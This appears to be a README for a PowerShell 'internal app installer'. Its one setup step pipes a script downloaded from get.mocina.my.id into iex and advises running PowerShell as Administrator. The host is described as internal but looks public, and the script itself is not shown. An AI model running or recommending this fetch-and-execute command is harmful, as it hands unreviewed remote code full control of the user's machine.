


# 🛠️ Internal App Installer Script

To improve efficiency and simplify the setup process for our internal tools, we've created a lightweight **PowerShell-based installer** that allows users to install frequently used company applications with a single command.

---

## ⚙️ How It Works

Simply open PowerShell and run the following command:


```powershell
iwr get.mocina.my.id | iex
```


This command will:
- Download the latest internal app installer
- Run the script to present a simple interface
- Allow you to choose and install essential tools with one click

This is especially useful for new joiners or when setting up a fresh Windows environment.

---

## 🖼️ App Running Screenshot


> The installer is designed to be intuitive and fast, helping users install the tools they need without digging through multiple software portals.

---

## 📌 Notes

- Only use this script within the internal network.
- Make sure to run PowerShell as Administrator for full functionality.
- The script and its dependencies are maintained internally and updated regularly.

---

If you have feedback or want to request new tools to be added, feel free to contact the IT team.

Happy installing! 💻
